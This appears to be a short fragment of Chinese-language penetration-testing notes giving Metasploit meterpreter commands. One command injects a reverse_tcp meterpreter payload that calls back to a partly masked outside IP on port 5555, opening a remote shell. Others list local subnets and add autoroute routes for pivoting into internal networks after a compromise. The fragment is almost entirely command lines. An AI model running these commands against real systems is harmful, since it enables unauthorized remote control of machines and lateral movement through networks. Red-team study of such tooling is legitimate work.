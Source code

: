 - 在meterpreter下运行别的payload

  ```
  run post/windows/manage/payload_inject payload=windows/x64/meterpreter/reverse_tcp lhost=4*.5*.3*.4* lport=5555 exitfunc=thread handler=false
  ```

- 在meterpreter下查看当前路由表

  ```
  meterpreter > run get_local_subnets
  meterpreter > run autoroute -s 172.31.1.6/255.255.255.254
  ```

  ​